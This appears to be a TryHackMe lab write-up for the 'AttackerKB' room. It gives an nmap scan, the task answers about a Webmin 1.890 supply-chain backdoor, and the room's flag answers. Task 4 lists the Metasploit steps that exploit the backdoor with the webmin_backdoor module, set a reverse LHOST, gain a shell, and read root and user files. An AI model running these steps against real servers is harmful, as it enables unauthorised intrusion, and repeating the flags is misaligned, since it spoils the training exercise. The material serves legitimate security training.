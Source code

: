 # THM - AttackerKB

<br>

🔖 https://attackerkb.com/

<br>

## Task 2

### Task 2.2

```shell
nmap -sV -sC -vv -oA scans/initial 10.10.79.75
```

> Webmin

### Task 2.3

> 1.890

### Task 2.4

> source

<br>

## Task 3

https://attackerkb.com/topics/hxx3zmiCkR/webmin-password-change-cgi-command-injection

### Task 3.3

> 1.890

### Task 3.4

> Supply Chain

### Task 3.5

> August 17th 2019

### Task 3.6

> 12219

<br>

## Task 4

```shell
msfconsole
	search webmin_backdoor	
	use 0
		
		show options
		set RHOSTS 10.10.79.75
		set LHOST tun0		# tun0 vs eth0 (VPN)
		set SSL true
		
		run
			whoami
			
			cat /root/root.txt
			
			cat /home/dark/user.txt
```

### Task 4.3

> ssl

### Task 4.4

> THM{SUPPLY_CHAIN_COMPROMISE}

### Task 4.5

> THM{UPDATE_YOUR_INSTALL}



